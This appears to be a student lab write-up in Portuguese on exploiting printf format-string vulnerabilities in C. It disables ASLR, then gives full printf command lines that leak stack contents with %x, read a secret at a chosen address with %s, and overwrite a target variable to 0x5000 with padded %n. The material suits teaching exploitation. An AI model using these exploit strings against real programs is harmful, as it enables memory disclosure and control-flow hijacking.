







# Semana 6

## Introdução

A função `printf()` em `C` possui uma vulnerabilidade muito grande chamada de format string.
Caso algo do tipo `printf(STR)`, onde STR é uma string que pode ser afetada pelo user, está presente uma vulnerabilidade.
Isto acontece porque dentro de uma string podem estar os formatadores que começam com '%' e como não são passados argumentos ao `printf()`, a função vai fazendo pop da stack, revelando os seus conteúdos.
Para evitar este problema, basta fazer `printf("%s", STR)`.

Conhecendo o layout da stack e com uma vulnerabilidade de format string, conseguimos ler os conteúdos presentes na stack e, em ultima instância, alterar o seu conteúdo com %n, que inves de printar um valor, guarda o numero de linhas já imprimidas num valor da stack, podendo o endereço onde tudo isto acontece manipulado.

Sistemas modernos têm várias medidas para dificultar mas vamos remove-las:

`sudo sysctl -w kernel.randomize_va_space=0`

compilar o código com as flags gcc: `-z execstack`

## Task 1

O programa recebe a nossa string e dá print dela de seguida. Como há uma vulnerabilidade de string format, se passarmos como argumento %s e o conteúdo no top da stack não for uma string, conseguimos imediatamente crashar o programa:



## Task 2

### 2-A

Vamos usar como input "ABBA.%x.%x.%x..." até aparecer em %x o conteúdo do nosso ABBA, ou seja, 41 42 42 41.

Após algumas tentativas com número variável de %x chegamos a:



Encontramos na stack a própria string inserida!! Usamos a seguinte string que contém 64 formatadores %x :

```sh
ABBA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
```

### 2-B

Se quisermos ter mais controlo sobre o que printamos, basta pôr o endereço desejado no inicio da string e o formatador encarregar-se-á de o printar!

Neste caso é fácil saber o endereço porque quando iniciamos o servidor ele indica-nos o endereço!

Notar que endereços são little-endian então temos de inverter o endereço, pelo que:
0x080b4008 &rarr; \x08\x40\x0b\x08

Então vamos inserir a seguinte string:

```sh
clear && printf "ABBA\x08\x40\x0b\x08%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%s\n" | ./format-32
```

Com isto sabemos que a seguir ao print do ABBA (que já sabemos ser 41 42 42 41) que está no  64º %x como confirmado anteriormente,  tem de vir o print do conteúdo do endereço desejado! Como sabemos que secret é char*, usamos um %s para ler o conteúdo e ler o segredo.



## Task 3

### 3-A

Até agora limitamo-nos a ler conteúdos. Agora vamos alterar o conteúdo da variável target com endereço 0x080e5068. Para tal recorremos a %n, que escreve o número de caracteres escritas até agora

Posição do target:
0x080e5068 &rarr;  \x68\x50\x0e\x08

```sh
clear && printf "ABBA\x68\x50\x0e\x08%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%n\n" | ./format-32
```

Usando a mesma lógica de atrás, vamos apenas alterar a string para usar %n para em vez de ler, escrever na posição do target o valor de chars printados até agora.



Como desejado, alteramos o target, passando este a conter 0x0000013a.

### 3-B

Para controlar o valor escrito, temos de controlar o que %n escreve. Para tal, temos de controlar quantos chars são escritos. Como buffers podem ter tamanho limitado, não podemos simplesmente pôr de input strings enormes. Há uma abordagem mais simples! Formatadores podem ter left-padding de blank spaces da seguinte forma: %10s. Isto gera 10 espaços em branco e depois printa uma string.

Vamos testar adicionar 50 caracteres (%%50x.%%n\n) para ver como corre:

```sh
clear && printf "ABBA\x68\x50\x0e\x08%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%50x.%%n\n" | ./format-32
```

E obtemos:



Conseguimos alterar %n e agora o target contem 0x00000164.

Assim, basta calcular o offset necessário para conseguir escrever o valor desejado de 0x5000.

0x5000 - 0x0000013a = 20166 (base 10)

Então sabemos que 20166 estará perto do valor certo!



Ainda falta um pouco então vamos aumentar:

```sh
clear && printf "ABBA\x68\x50\x0e\x08%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%20174x.%%n\n" | ./format-32
```



Conseguimos alterar uma variável target para o valor pretendido!
Caso esta variável fosse crucial para o flow do código, podiamos manipular esse flow e manipular o comportamento do código para nosso benefício!
